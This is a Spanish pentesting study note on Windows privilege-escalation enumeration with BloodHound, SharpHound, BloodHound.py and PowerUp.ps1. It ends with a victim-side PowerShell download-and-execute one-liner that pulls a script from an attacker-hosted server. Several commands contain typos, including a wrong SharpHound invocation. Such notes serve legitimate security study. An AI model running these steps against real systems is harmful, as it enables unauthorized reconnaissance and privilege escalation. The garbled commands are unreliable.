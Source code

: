 -----
- Tags: #escalada #windows #basico #teoria #practica
-----
# Recopilación exhaustiva

Una vez probados todos los [[Intentos Básicos]] para ver si encontramos una vía potencial de escalar privilegios y que está no de resultados, podríamos intentar realizar una recopilación exhaustiva de información del sistema con herramientas automatizadas como [winPEAS.exe](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) así como con la realización de **base de datos de grafos** con información del sistema. 

----
# Base de datos de grafos con neo4j

 **Neo4j** es un software libre de Base de datos orientada a grafos, implementado en Java el cual podremos utilizar junto a **Bloohound**, una herramienta visor gráfico que tiene como objetivo realizar un mapeo de todas las relaciones, configuraciones en un Dominio de Windows siendo utilizando para identificar las rutas que pueden ser complejas para identificar, falencias de configuración de usuarios y políticas. 

```bash
sudo apt install neo4j bloodhound 
```

Una vez instaladas las herramientas, es importante tener en cuenta que se necesita la version de **java 11** para que neo4j funcione correctamente. 

```bash
sudo update-alternatives --config java
```

 Una vez seleccionada la versión 11 de java, podríamos dar comienzo a la realización de nuestra base de datos.

```bash
neo4j console &>/dev/null & disown
```

Una vez ejecutado el comando, se nos levantará un puerto (**7474**) en donde tendremos una interfaz gráfica en la web, donde deberémos configurar nuestras credenciales de la base de datos, por default las credenciales son **neo4j:neo4j**. 

Una vez configurada nuestra contraseña, habría que ejecutar el comando: 

```bash
bloodhound &>/dev/null & disown 
```

Ahora solo quedaría recopilar la información del sistema windows, en caso de tener una **powershell** podríamos hacer uso de la herramienta [sharphound.psq](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1),  una vez descargada esta herramienta, solo habría que subirla a la máquian víctima y ejecutarlo 

Para ver como se ejecuta el scrip, desde nuestra máquina linux: 
```bash
cat Sharphound.ps1 | grep function # Output -> Invoke-Bloodhound
cat Sharphound.ps1 | grep "Invoke-Bloodhound"
```

Una vez que sepamos como se hace para ejecutar el script: 
```powershell
> Import-Module .\Sharphound.ps1
> Invoke-Module -CollectionMethod All
```

 Este último comando creara un comrpimido **.zip** con la información del sistema le cual deberemos descargar para posteriormente subir a la interfaz del **bloodhound**. 
 Una vez subida la información a bloodhound, está herramienta nos podrá ayudar a detectar posibles rutas para escalar privilegios, entre otras cosas.

-----
# Bloohound-python 

La herramienta [Bloodhoun-python](https://github.com/fox-it/BloodHound.py) es una herramienta que nos permite realizar la recopilación de información del sistema sin tener acceso al mismo, como en el caso de la creación de **Base de datos de grafos con Neo4j** en donde usamos el SharpHound.ps1 para la creación de un archivo **.zip** el cual tendremos que subir posteriormente a bloodhound. 

```bash
git clone https://github.com/fox-it/BloodHound.py
mv BloodHound.py bloodhound-py
cd !$ 
python3 setup.py install 

mv bloodhound.py bloodhound-python

python3 blodhound-python -c All -u 'username' -p 'password' -ns {target_ip} -d {domain}
```
Esto lo que hará será crear archivos **json**.

----
# PowerUp.ps1

[PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) es un script en powershell que se encarga de automatizar la búsqueda de posibles vías interesantes para el intento de escalada de privilegio, lo que es muy útil de cara a la recopilación de información.
#### Máquina atacante
```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Privesc/PowerUp.ps1

# Una vez descargado, podemos editarlo para realizar la invocación del mismo agregando la línea 'Invoke-AllChecks'

python3 -m http.server 80
```
#### Máquina víctima
```powershell
IEX(New-Object Net.WebClient).downloadString('http://{our_uip}/PowerUp.ps1')
```